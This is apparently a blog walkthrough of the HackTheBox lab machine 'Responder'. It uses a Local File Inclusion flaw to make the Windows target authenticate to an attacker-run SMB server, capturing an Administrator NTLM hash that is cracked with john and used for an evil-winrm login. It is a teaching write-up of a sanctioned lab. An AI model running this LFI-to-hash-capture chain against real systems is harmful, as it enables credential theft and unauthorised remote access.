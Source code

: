 ```yaml
---
title: "HackTheBox - Responder"
author: Nasrallah
description: ""
date: 2022-06-25 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, lfi, responder, winrm, cracking, john]
img_path: /assets/img/hackthebox/machines/responder/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello Hackers, I hope you are doing well. Today we are doing [Responder](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -p- {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
PORT     STATE    SERVICE   VERSION
80/tcp   open     http      Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open     http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp filtered pando-pub
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The target is a windows machine having 2 open ports, port 80 running Apache web server as well as WINRM on port 5985.

## Web

Navigate to the web page. http://10.129.230.170/

![](1.png)

We get redirected to unika.htb . We need to add it to our hosts file (/etc/hosts)

![](2.png)

Now go to http://unika.htb/

![](3.png)

Looking through the page, we see a section where we can change language. When we change the option to GR, the website takes us to the German version of the website.

![](4.png)

In the URL we see the `german.html` page is loaded by the `page` parameter.

This might be vulnerable to LFI (**L**ocal **File** **I**clusion).

>LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a
file as input. If the application treats this input as trusted, and the required sanitary checks are not
performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name
and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code
execution as well.

# **Foothold**

Since this is a windows machine, one of the files we use to test for lfi is `C:\Windows\System32\drivers\etc\hosts`.

Now let's add that to the url and request the file.`http://unika.htb/index.php?page=C:\Windows\System32\drivers\etc\hosts`.

![](5.png)

Great! The target is vulnerable to LFI.

We are going to leverage that and get a NTLM hash using a tool called `Responder`.

When we run `Responder`, it will set up an SMB server listening for incoming connections. Then we'll attempt to perform the NTLM authentication to that server using the LFI we found. `Responder` sends a challenge back for the server to encrypt with the user's password. When the server responds, `Responder` will use the challenge and the encrypted response to generate the NetNTLMv2.

First, let's run Responder : `udo responder -I tun0`

![](6.png)

with the Responder server ready, we tell the server to include a resource from our SMB server by setting the page parameter: `http://unika.htb/index.php?page=//10.10.16.29/somefile`.

![](7.png)

Great! We not only got a hash, but it's Administrator's hash.

Put the hash in file so that we can crack it.

![](8.png)

Using john and rockyou wordlist, let's crack the hash.

![](9.png)

Great! Got Administrator's password.

We have seen earlier that Winrm service is running. Using a tool called `evil-winrm`, we can connect to that service as Administrator with the password we cracked. `evil-winrm -i 10.129.95.234 -u Administrator -p badminton`

![](9.png)

Excellent! We got in.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

# References

